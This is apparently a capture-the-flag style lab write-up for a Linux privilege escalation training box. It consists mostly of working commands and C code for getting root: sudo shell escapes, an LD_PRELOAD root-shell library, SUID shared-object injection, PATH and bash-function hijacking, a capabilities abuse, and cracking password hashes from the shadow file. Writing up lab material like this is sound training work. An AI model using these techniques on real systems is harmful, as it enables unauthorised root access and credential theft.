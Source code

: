 # Linux PrivEsc Arena

<figure><img src="../../../../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

Connection SSH&#x20;

```bash
 ssh -oHostKeyAlgorithms=+ssh-dss TCM@10.10.19.42
```

## Privilege Escalation - Kernel Exploits

### Detection

**/home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh**

<figure><img src="../../../../.gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
[**https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c**](https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c)
{% endhint %}

### Privilege Escalation - Stored Passwords (Config Files & History)

<figure><img src="../../../../.gitbook/assets/image (168).png" alt=""><figcaption><p>Config File</p></figcaption></figure>

#### History!

```bash
 cat ~/.bash_history | grep -i passw
```

What was TCM trying to log into?

Who was TCM trying to log in as?&#x20;

Who was TCM trying to log in as?

<figure><img src="../../../../.gitbook/assets/image (169).png" alt=""><figcaption></figcaption></figure>

```
unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt
hashcat -m 1800 unshadowed.txt rockyou.txt -O
```

### Privilege Escalation - SSH Keys

```bash
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
sudo find /bin -name nano -exec /bin/sh \;
sudo awk 'BEGIN {system("/bin/sh")}'
echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
sudo vim -c '!sh'
sudo apache2 -f /etc/shadow

```

```bash
john --wordlist=/usr/share/wordlists/nmap.lst hash.txt
```

### Privilege Escalation - Sudo (LD\_PRELOAD)

1. In command prompt type: sudo -l
2. From the output, notice that the LD\_PRELOAD environment variable is intact.

```c

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
    }
    
    /*
        gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
        sudo LD_PRELOAD=/tmp/x.so apache2
    */
```

<figure><img src="../../../../.gitbook/assets/image (170).png" alt=""><figcaption></figcaption></figure>

```bash
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
sudo LD_PRELOAD=/tmp/x.so apache2
```

### Privilege Escalation - SUID (Shared Object Injection)

Detection

```bash
find / -type f -perm -04000 -ls 2>/dev/null
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
```

<figure><img src="../../../../.gitbook/assets/image (171).png" alt=""><figcaption></figcaption></figure>

Exploitation

```bash
 mkdir /home/user/.config
 cd /home/user/.config
 nano libcalc.c
#[code]
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}

gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
/usr/local/bin/suid-so
```

### Privilege Escalation - SUID (Environment Variables #1,2)

\#1 Detection

```bash
 find / -type f -perm -04000 -ls 2>/dev/null
 strings /usr/local/bin/suid-env
```

Exploitation

```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
 gcc /tmp/service.c -o /tmp/service
 export PATH=/tmp:$PATH
 /usr/local/bin/suid-env
```

\#2 Detection

```bash
 find / -type f -perm -04000 -ls 2>/dev/null
 /usr/local/bin/suid-env2
#1
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
/usr/local/bin/suid-env2

#2
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```

### Privilege Escalation - Capabilities

```bash
 getcap -r / 2>/dev/null
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

